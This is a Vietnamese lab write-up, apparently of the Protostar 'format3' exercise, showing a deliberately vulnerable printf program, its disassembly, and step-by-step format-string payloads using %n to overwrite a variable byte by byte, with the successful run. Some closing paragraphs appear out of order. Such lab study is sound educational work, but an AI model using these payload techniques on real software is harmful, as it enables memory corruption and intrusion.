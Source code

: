 ```yaml
---
layout: post
title: format3
---
```


Trong bài này, chúng ta sẽ tiếp tục dùng `printf` với `%n` một cách linh hoạt hơn.
Thay vì chỉ ghi một giá 4 byte, chúng ta có thể dùng `printf` để ghi từng thành phần byte

Sau đây là source code và asm code của chương trình format3.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
```asm
0x08048454 <printbuffer+0>:     push   ebp
0x08048455 <printbuffer+1>:     mov    ebp,esp
0x08048457 <printbuffer+3>:     sub    esp,0x18
0x0804845a <printbuffer+6>:     mov    eax,DWORD PTR [ebp+0x8]
0x0804845d <printbuffer+9>:     mov    DWORD PTR [esp],eax
0x08048460 <printbuffer+12>:    call   0x804837c <printf@plt>
0x08048465 <printbuffer+17>:    leave
0x08048466 <printbuffer+18>:    ret
0x08048467 <vuln+0>:    push   ebp
0x08048468 <vuln+1>:    mov    ebp,esp
0x0804846a <vuln+3>:    sub    esp,0x218
0x08048470 <vuln+9>:    mov    eax,ds:0x80496e8
0x08048475 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x08048479 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x08048481 <vuln+26>:   lea    eax,[ebp-0x208]
0x08048487 <vuln+32>:   mov    DWORD PTR [esp],eax
0x0804848a <vuln+35>:   call   0x804835c <fgets@plt>
0x0804848f <vuln+40>:   lea    eax,[ebp-0x208]
0x08048495 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048498 <vuln+49>:   call   0x8048454 <printbuffer>
0x0804849d <vuln+54>:   mov    eax,ds:0x80496f4
0x080484a2 <vuln+59>:   cmp    eax,0x1025544
0x080484a7 <vuln+64>:   jne    0x80484b7 <vuln+80>
0x080484a9 <vuln+66>:   mov    DWORD PTR [esp],0x80485a0
0x080484b0 <vuln+73>:   call   0x804838c <puts@plt>
0x080484b5 <vuln+78>:   jmp    0x80484ce <vuln+103>
0x080484b7 <vuln+80>:   mov    edx,DWORD PTR ds:0x80496f4
0x080484bd <vuln+86>:   mov    eax,0x80485c0
0x080484c2 <vuln+91>:   mov    DWORD PTR [esp+0x4],edx
0x080484c6 <vuln+95>:   mov    DWORD PTR [esp],eax
0x080484c9 <vuln+98>:   call   0x804837c <printf@plt>
0x080484ce <vuln+103>:  leave
0x080484cf <vuln+104>:  ret
0x080484d0 <main+0>:    push   ebp
0x080484d1 <main+1>:    mov    ebp,esp
0x080484d3 <main+3>:    and    esp,0xfffffff0
0x080484d6 <main+6>:    call   0x8048467 <vuln>
0x080484db <main+11>:   mov    esp,ebp
0x080484dd <main+13>:   pop    ebp
0x080484de <main+14>:   ret
```

Để tìm được địa chỉ của `target`, dùng objdump như 2 bài trước. Kết quả cho thấy `target` được lưu tại `0x080496f4`.
Tiếp theo ta tìm khoảng cách từ `esp` đến địa chỉ của formatted string cũng như bài trước. Kết quả cho thấy khoảng cách này là 44 byte, tương đương với tham số thứ 12 khi gọi hàm `printf`.
Giá trị cần ghi vào `target` là `0x01025544`.
Ta có thể làm tương tự như bài trước bằng cách xây dựng 4 byte địa chỉ, đi kèm với in ra 16,930,112 ký tự với `%x` như sau.

```bash
python -c 'print "\xf4\x96\x04\x08" + "%16930112x" + "%12$n"'
```

Ta cũng có thể ghi từng byte thành phần như sau.
Đầu tiên, cần tách giá trị `0x01025544` thành:
- `0x01` lưu vào `0x080496f7`
- `0x02` lưu vào `0x080496f6`
- `0x55` lưu vào `0x080496f5`
- `0x44` lưu vào `0x080496f4`
Tuy nhiên, thứ tự lưu cần được lưu ý, vì mỗi lần lưu vào địa chỉ `0xY` thì 4 byte từ `0xY` đến `0xY + 3` sẽ bị thay đổi theo.
Ví dụ nếu ta lưu `0x01` vào `0x080496f7`, ta sẽ được giá trị của `target` như sau.
<pre class="memory">
0x080496f4:     0x<span style="color:orangered">01</span>000000
</pre>
Sau đó, ta lưu `0x02` vào `0x080496f6` thì giá trị tại `0x080496f7` sẽ mất đi (trở về `0x00` do ghi `0x02` tương đương với `0x0002`).
<pre class="memory">
0x080496f4:     0x00<span style="color:orangered">02</span>0000
</pre>

Lưu ý thứ 2 đó là chúng ta không thể giảm giá trị sẽ được lưu khi lệnh `printf` tiếp diễn.
Cụ thể, vì bản chất của `printf` kết hợp với `%n` là ghi số lượng ký tự đã được in ra màn hình, giá trị được lưu với `%n` chỉ tăng dần theo thời gian cho đến khi `printf` kết thúc.
Do vậy, đối với bài này, chúng ta có thể ghi theo trình tự như sau.
- `0x44` lưu vào `0x080496f4`
- `0x55` lưu vào `0x080496f5`
- `0x0102` lưu vào `0x080496f6`
Với cách ghi này, ta cần xây dựng formatted string có cả 3 địa chỉ trên.
Rất may, với 3 địa chỉ này ở đầu formatted string, chúng ta chỉ tiêu tốn 12 ký tự in ra, nhỏ hơn giá trị 68 (hay `0x44`) cho lần ghi đầu tiên.
Ta cần in ra thêm 56 ký tự khác với `%x`.
Formatted string mở đầu như sau.

```bash
python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n"'
```

Sau lần ghi đầu, chúng ta đã in ra 68 ký tự.
Ở lần ghi thứ 2, cần thêm 17 ký tự nữa để đạt đủ 85 (hay `0x55`) cho lần ghi thứ hai.
Và ở lần ghi thứ hai, chúng ta sẽ ghi vào địa chỉ ở tham số thứ 13.

```bash
python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n" + "%17x" + "%13$n"'
```

Tương tự, với lần ghi cuối, ta cần thêm 173 ký tự để đạt đủ 258 (hay `0x0102`).
Lần ghi cuối này sẽ ghi vào địa chỉ ở tham số thứ 14.

```bash
python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n" + "%17x" + "%13$n" + "%173x" + "%14$n"'
```

Chạy thử chương trình, ta được như sau.
```bash
format3 <<< $(python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n" + "%17x" + "%13$n" + "%173x" + "%14$n"')
```

Chúng ta sẽ dựng formatted string dựa trên địa chỉ này.
Thành phần sẽ gồm 4 byte địa chỉ ở đầu. Tiếp theo, ta cần ghi thêm lệnh in 60 byte nữa trước khi sử dụng `%n` để ghi vào `target`.
Chúng ta cũng cần biết khoảng cách từ `esp` đến địa chỉ của formatted string.
Cách làm tương tự như bài trước, đó là dùng formatted string có cờ dạng `AAAA` ở đầu và các chuỗi `%x.` để xác định vị trí cờ sau khi in ra.

```bash
python -c "print 'AAAA' + '%x.' * 100"
```
<pre class="memory">
                                                       0         bffff5b0                                                                                                                                                                     b7fd7ff4
<span style="color:aqua">you have modified the target :)</span>
</pre>

Mục tiêu hoàn thành!

## Ref
```bash
user@protostar:~$ format3 <<< $(python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n" + "%17x" + "%13$n" + "%173x" + "%14$n"')
                                                       0         bffff5b0                                                                                                                                                                     b7fd7ff4
you have modified the target :)
```
